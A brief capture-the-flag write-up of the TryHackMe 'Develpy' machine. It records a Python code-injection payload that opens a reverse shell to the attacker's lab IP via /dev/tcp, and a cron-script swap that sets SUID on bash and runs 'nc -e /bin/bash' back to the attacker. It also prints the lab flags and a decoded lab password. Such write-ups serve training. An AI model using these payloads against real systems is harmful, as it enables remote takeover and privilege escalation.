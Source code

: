 # Develpy 

> VOiD | Friday 05 November 2021 06:01:35 PM IST

My IP : 10.8.253.221
Target IP : 10.10.232.106


## PORT 10000[snet-sensor-mgmt]

```bash
nc 10.10.232.106 10000

        Private 0days

 Please enther number of exploits to send??: 1

Exploit started, attacking target (tryhackme.com)...
Exploiting tryhackme internal network: beacons_seq=1 ttl=1337 time=0.076 ms


{"num_exploits":"__import__('os').system('sh -i >& /dev/tcp/10.8.253.221/4444 0>&1')#"}


__import__('os').system('bash /bin/bash')#
 Please enther number of exploits to send??: __import__('os').system('bash /bin/bash')#
/bin/bash: /bin/bash: cannot execute binary file

__import__('os').system('wget http://10.8.253.221')#
it runs

__import__('os').system('/bin/bash')#
gives shell
```

## USER[King]
```bash
king@ubuntu:~$ cat user.txt 
cf85ff769cfaaa721758949bf870b019

cat /etc/crontab
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh


```

Decoding credentials.png
```bash
https://www.bertnase.de/npiet
king:c00ffe123!king:c00ffe123!king:c00ffe123

rm root.sh
king@ubuntu:~$ cat root.sh 
#!/bin/bash

chmod +s /bin/bash
nc -e /bin/bash 10.8.253.221 4444

chmod +x root.sh
```


## USER[ROOT]
```bash
cat root.txt 
9c37646777a53910a347f387dce025ec

```